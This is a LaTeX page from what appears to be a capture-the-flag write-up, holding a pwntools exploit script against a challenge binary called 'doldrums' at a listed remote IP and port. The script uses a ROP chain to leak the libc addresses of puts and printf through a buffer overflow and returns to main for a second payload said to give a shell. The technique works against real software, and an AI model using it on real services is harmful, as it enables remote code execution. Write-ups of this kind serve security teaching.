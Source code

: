 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
\begin{verbatim}
from pwn import *
# Binary names
bin_fname = './doldrums'

# Remote
IP = '46.101.107.117'
PORT = 2113

# Create ELF objects
e = ELF(bin_fname)
x64 = e.bits != 32

cat = 0x0804888d
main = 0x080485e6 # main is not known (obfuscated)

print(p.recvuntil(b'Please press a key to continue!\n\n'))

# Send payload one to leak address
rop = ROP(bin_fname)
rop.raw(cyclic(cyclic_find('aaae', n=4), n=4))
rop.call(e.plt['puts'], [cat])
rop.call(e.plt['puts'], [e.got['puts']])
rop.call(e.plt['puts'], [cat])
rop.call(e.plt['puts'], [e.got['printf']])
rop.call(main)
p.sendline(rop.chain())

# skip the "poem"
tmp = p.recvuntil(b'Ancient_Mariner\n\n')

# Receive the GOT address of puts
tmp = p.recvuntil(b'/bin/cat ./heading\n')
leaked_puts = u32(p.recv(4))
log.info('the leaked address of puts  : %s' % hex(leaked_puts))
# Receive the GOT address of printf
tmp = p.recvuntil(b'/bin/cat ./heading\n')
leaked_printf = u32(p.recv(4))
log.info('the leaked address of printf: %s' % hex(leaked_printf))
\end{verbatim}

The rop chain first prints a defined string, then the address of \verb+puts+,
afterwards again the string and the address of \verb+printf+.  With the defined
string we can identify the addresses in the buffer cleanly.  At the end of the
exploit we call \verb+main+ again to get a chance to enter the second payload
that will give us the shell.  This prints out the addresses of the two
functions and we can use \url{https://libc.blukat.me/} to identify libc:

\begin{figure}
  \includegraphics[width=150mm]{ch36/identify_libc.png}
    \caption{Identifying the libc.}
\end{figure}
\end{document}
